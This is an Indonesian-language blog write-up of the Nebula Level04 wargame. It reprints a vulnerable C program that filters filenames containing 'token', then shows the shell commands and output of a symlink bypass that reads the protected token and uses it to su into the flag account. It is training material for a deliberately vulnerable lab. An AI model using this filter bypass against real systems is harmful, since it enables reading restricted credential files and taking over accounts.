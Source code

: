 +++
author = "kernel-panic"
categories = ["Security", "Nebula"]
date = "2018-01-17T03:57:03+00:00"
description = "Security Wargames"
featured = "wlRjyW6I_o.jpg"
featuredalt = "Nebula Level04"
featuredpath = "https://images2.imgbox.com/62/c7"
linktitle = ""
title = "Exploit Exercises - Nebula Level04"
type = "post"

+++
{{< url-link "Level04" "https://exploit-exercises.com/nebula/level03/" "target">}}  adalah salah satu tantangan favorit bagi saya dari keseluruhan seri yang ada.

Kita disajikan _source code_ untuk level4.c. Saya menyertakan kodenya di bawah ini untuk referensi lebih cepat:

    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>
    #include <fcntl.h>
    
    int main(int argc, char **argv, char **envp)
    {
        char buf[1024];
        int fd, rc;
    
        if(argc == 1) {
            printf("%s [file to read]\n", argv[0]);
            exit(EXIT_FAILURE);
        }
    
        if(strstr(argv[1], "token") != NULL) {
            printf("You may not access '%s'\n", argv[1]);
            exit(EXIT_FAILURE);
        }
    
        fd = open(argv[1], O_RDONLY);
        if(fd == -1) {
            err(EXIT_FAILURE, "Unable to open %s", argv[1]);
        }
    
        rc = read(fd, buf, sizeof(buf));
    
        if(rc == -1) {
            err(EXIT_FAILURE, "Unable to read fd %d", fd);
        }
    
        write(1, buf, rc);
    }

Sekilas saya melihat bahwa masalah ini rumit dan mulai mencari-cari _permission_ dari file, dan lain-lain. Setelah mencoba berkonsentrasi pada _source code_ yang disediakan, saya melihat adanya kesalahan pemrograman yang umum.

Pernyataan kedua jika secara eksplisit menyatakan file yang tidak ingin diakses oleh pemrogram. Karena kode pencocokannya berdasarkan nama kita harus bisa membuat _symbolic link_ untuk menampilkan isi token.

    level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/level04
    level04@nebula:/home/flag04$ ./flag04 /tmp/level04
    06508b5e-8909-4f38-b630-fdb148a848a2
    level04@nebula:/home/flag04$ id
    uid=1005(level04) gid=1005(level04) groups=1005(level04)
    level04@nebula:/home/flag04$ su flag04
    Password:
    sh-4.2$ id
    uid=995(flag04) gid=995(flag04) groups=995(flag04)
    sh-4.2$ getflag
    You have successfully executed getflag on a target account

Dan tadaaa, dengan menghindari filter berbasis nama, kita dapat membaca isi file yang dibatasi.

_Note: saya menggunakan isi token sebagai password untuk su ke akun flag04. Semoga ini membantu!_

<div class="videoyoutube"><div class="video-responsive"><iframe allowfullscreen="1" class="embedded-video-large" src="https://www.youtube.com/embed/K5nuQ5QGYKQ?rel=0"></iframe></div></div>